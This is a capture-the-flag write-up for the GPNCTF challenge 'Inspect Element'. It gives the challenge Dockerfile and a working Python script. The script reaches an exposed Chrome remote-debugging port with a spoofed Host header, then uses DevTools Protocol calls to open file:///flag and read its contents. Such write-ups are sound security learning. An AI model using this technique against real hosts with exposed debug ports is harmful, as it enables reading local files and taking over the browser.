


# Inspect Element

> <p>Maybe using Inspect Element will help you!</p>
> <p><a href="attachments/inspect-element.tar.gz">inspect-element.tar.gz</a></p>

## Path to Flag

We are given a `dockerfile`

```
# docker build -t inspect-element . && docker run -p 1337:1337 -t inspect-element
FROM node:20-buster-slim

# Install Google Chrome
RUN apt-get update \
    && apt-get install -y wget gnupg \
    && wget -q -O - https://dl-ssl.google.com/linux/linux_signing_key.pub | apt-key add - \
    && sh -c 'echo "deb [arch=amd64] http://dl.google.com/linux/chrome/deb/ stable main" >> /etc/apt/sources.list.d/google.list' \
    && apt-get update \
    && apt-get install -y google-chrome-stable fonts-ipafont-gothic fonts-wqy-zenhei fonts-thai-tlwg fonts-kacst fonts-freefont-ttf libxss1 libx11-xcb1 \
    --no-install-recommends \
    && rm -rf /var/lib/apt/lists/*

# Install socat
RUN apt-get update && apt-get install -y socat

ARG FLAG=GPNCTF{fake_flag}
RUN echo "$FLAG" > /flag

# Using socat to bypass Chrome filtering out non-local connections
CMD \
socat tcp-listen:1337,fork tcp:localhost:13370 & \
google-chrome --remote-debugging-port=13370 --disable-gpu --headless=new --no-sandbox google.com

# Expose port 1337
EXPOSE 1337
```

Based on that file, it seems that it is about `Chrome Debugging`, then we'll be using the `Chrome DevTools Protocol`. I tried to checkout `/json` and set the host to `localhost`.



Since then, it seems that the chall is about Websocket attack
Straightforwardly, extract the the `WebSocket Debugger URL`, connect to the websocket, and navigate to `file:///flag`, and retrieve the html response.

```
#!/usr/bin/env python3

import requests
import websocket
import json

def page_navigate(ws, url):
    payload = {
        "id": 1,
        "method": "Page.navigate",
        "params": {
            "url": url
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())

def get_current_html(ws):
    payload = {
        "id": 2,
        "method": "Runtime.evaluate",
        "params": {
            "expression": "document.documentElement.outerHTML"
        }
    }
    ws.send(json.dumps(payload))
    return json.loads(ws.recv())["result"]["result"]["value"]

target = requests.get("https://sweet-dreams-are-made-of-this--naturally-7-1917.ctf.kitctf.de/json", headers={
    "Host": "localhost"
}).json()

websocket_url = target[0]["webSocketDebuggerUrl"]
websocket_url = websocket_url.replace("localhost", "sweet-dreams-are-made-of-this--naturally-7-1917.ctf.kitctf.de")
websocket_url = websocket_url.replace("ws://", "wss://")
print(websocket_url)

ws = websocket.WebSocket()
ws.connect(websocket_url, suppress_origin=True)
print(page_navigate(ws, "file:///flag"))
print(get_current_html(ws))
```



`GPNCTF{D4NG3R0U5_D3BUGG3R}`